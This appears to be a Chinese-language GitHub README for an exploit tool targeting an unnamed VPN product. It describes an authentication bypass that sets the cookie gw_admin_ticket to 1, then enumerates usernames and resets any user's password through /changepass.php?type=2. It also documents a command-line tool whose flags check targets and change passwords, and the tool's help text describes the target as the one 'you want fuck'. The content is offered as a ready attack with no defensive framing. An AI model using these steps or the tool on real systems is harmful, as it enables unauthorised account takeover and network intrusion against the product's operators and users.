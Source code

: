 # 1.**复现**

1.使用cookie editor插件添加cookie值gw\_admin\_ticket为1.

![](pics/1.png)

2.使用charset插件修改网页编码为utf-8使页面正常显示

![](pics/2.png)

3.获取到用户名信息.

![](pics/3.png)

4.使用hackbar对地址/changepass.php?type=2发送修改密码数据,并将cookie值修改为如下，this_name为你需要修改密码的用户名称.

![](pics/4.png)

![](pics/5.png)

5.返回修改密码成功.可能会提示密码强度不够可以尝试随机生成字符串来生成。

![](pics/6.png)

# 2.工具使用

1.下载对应系统版本工具

```shell
./VPN_linux_amd64 -h                                 
Usage of VPN_linux_amd64:
  -c    check target vuln.(default) (default true)
  -e    change user's password.
  -p string
        manual set password you want change.(default is generate by random.) (default "BpLnfgDsc3WD")
  -t int
        request timeout default is 5 second. (default 5)
  -u string
        target you want fuck.(example:https://xxxxx:xxx)

```

2.参数介绍

| 参数 | 含义                                                  |
| ---- | ----------------------------------------------------- |
| c    | 检测模块，默认启用，存在漏洞的话会输出目标的用户列表. |
| e    | 修改密码模块，默认不启用.                             |
| p    | 更改后的密码，默认随机生成.                           |
| t    | 请求超时时间，默认为5s.                               |
| u    | 需要检测的目标url地址,.                               |



